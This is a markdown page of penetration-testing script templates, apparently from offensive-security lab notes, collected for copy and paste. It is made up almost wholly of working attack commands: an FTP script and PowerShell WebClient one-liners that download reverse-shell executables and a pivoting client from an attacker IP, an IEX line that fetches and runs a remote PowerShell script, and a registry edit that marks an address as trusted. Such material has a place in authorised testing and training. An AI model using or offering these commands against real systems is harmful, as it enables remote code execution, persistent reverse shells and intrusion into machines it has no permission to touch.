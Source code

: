 ## Script Templates

Use this doc as temp space to create scripts to copy/paste

### FTP Script

```bash
mkdir c:\temp
cd c:\temp
echo open 192.168.119.216 21> ftp.txt
echo USER rock>> ftp.txt
echo roll>> ftp.txt
echo passive >> ftp.txt
echo bin >> ftp.txt
echo GET file.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
del ftp.txt
```

### PowerShell Download

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216/win_rev_tcp_8000.exe','c:\xampp\htdocs\win_rev_tcp_8000.exe')"

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216/rpivot-client.exe','C:\coyote\rpivot-client.exe')"
```

```bash
echo $webclient = New-Object System.Net.WebClient>wget.ps1
echo $url = "http://192.168.119.216/reverse_tcp_8001.exe" >>wget.ps1
echo $file = "reverse_tcp_8001.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

### Remote Script

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.216/backhand.ps1')
```

### MSF Command

```bash

```

### Registry Edit

Need to add a page for this too

```powershell
Windows Registry Editor Version 5.00 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\192.168.1.241] "*"=dword:00000001"
```

